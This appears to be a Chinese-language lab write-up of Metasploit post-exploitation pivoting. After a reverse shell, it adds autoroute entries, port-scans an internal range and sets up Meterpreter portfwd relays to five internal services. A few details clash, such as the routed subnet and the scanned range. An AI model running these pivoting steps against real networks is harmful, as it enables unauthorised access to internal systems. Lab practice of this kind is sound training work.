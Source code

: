 # 第一层内网穿透
## 实验环境
- 靶机ip：192.168.157.131
- 攻击机ip：192.168.93.130
## 实验步骤
在反弹shell成功获取flag后配置路由并放置后台运行
```bash
run get_local_subnets
run autoroute -s 10.10.20.0/24
run autoroute -p
bg
```
![](./img/配置路由.png)

接下来使用msf的工具进行端口扫描
```bash
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        80,8888,10000    yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS       192.170.84.1-255  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   THREADS      10               yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds
```
![](./img/端口扫描.png)

可以发现存在5个端口服务，逐一配置端口映射
```

meterpreter > portfwd add -L 192.168.93.130 -l 9001 -p 80 -r 192.170.84.1
[*] Forward TCP relay created: (local) 192.168.93.130:9001 -> (remote) 192.170.84.1:80
meterpreter > portfwd add -L 192.168.93.130 -l 9002 -p 8888 -r 192.170.84.2
[*] Forward TCP relay created: (local) 192.168.93.130:9002 -> (remote) 192.170.84.2:8888
meterpreter > portfwd add -L 192.168.93.130 -l 9003 -p 10000 -r 192.170.84.3
[*] Forward TCP relay created: (local) 192.168.93.130:9003 -> (remote) 192.170.84.3:10000
meterpreter > portfwd add -L 192.168.93.130 -l 9004 -p 80 -r 192.170.84.4
[*] Forward TCP relay created: (local) 192.168.93.130:9004 -> (remote) 192.170.84.4:80
meterpreter > portfwd add -L 192.168.93.130 -l 9005 -p 80 -r 192.170.84.5
[*] Forward TCP relay created: (local) 192.168.93.130:9005 -> (remote) 192.170.84.5:80
meterpreter > portfwd list
```
![](./img/配置端口映射.png)

接下来在攻击机中或者本机中输入对应ip即可以访问三个容器
![](./img/9002.png)
![](./img/9003.png)
![](./img/9004.png)